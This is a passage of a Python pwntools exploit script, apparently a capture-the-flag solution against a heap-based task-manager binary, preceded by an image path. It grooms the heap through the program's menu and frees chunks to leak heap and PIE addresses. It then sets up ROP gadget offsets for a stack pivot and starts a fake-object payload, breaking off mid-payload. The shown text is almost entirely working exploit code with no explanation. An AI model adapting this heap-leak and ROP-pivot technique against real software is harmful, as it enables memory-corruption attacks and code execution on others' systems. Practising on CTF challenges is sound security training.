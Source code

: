 ```python
    r.sendlineafter(b'Choice: ', b'3')
    r.sendlineafter(b'#: ', str(idx).encode())

# leak heap, pie
coin([0x1111]*180, 0xbeef) # large chunk for leak
bubble([1])

fib(1)
fib(1)
fib(1)
bubble([1]) # place slow_algo to slot #5 --> #4 --> delete
fib(1)
fib(1)

destroy(0) # free 0x90
bubble([1])

fib(1)
fib(1) # resize tasks to 0x90

resume(7)
destroy(4)

resume(6)
r.recvuntil(b'Result: ')
leak = u64(r.recv(8))
dbg('leak')
pie = leak - 0x1b4278
dbg('pie')

leak = u64(r.recv(8))
dbg('leak')
heap = leak - 0x13028
dbg('heap')

# resize tasks again 
for _ in range(10):
    fib(1)

# delete another slow_algo
destroy(6)

# resize tasks to skip 0x90 sized chunk
for _ in range(15):
    fib(1)

fake = heap + 0x14490 + 0x30
setrdx = pie + 0x00150718#: mov rdx, [rax+0x28]; mov rax, [rax+0x30]; mov [rdi+0x38], rdx; mov [rdi+0x40], rax; ret;
syscall = pie + 0x0009a1a6
leave = pie + 0x0015e4d4
pivot = pie + 0x0010b4d7#: mov rbp, rdi; call qword ptr [rax+0x10];
p2 = pie + 0x0015f7a5
rdi = pie + 0x0015f7a8
rax = pie + 0x0015cc2d
rsi = pie + 0x0015fc65

payload = [i for i in range(33)]
payload[6+0] = fake
payload[6+1] = p2
payload[6+2] = leave
payload[6+3] = pivot
payload[6+4] = rax
```
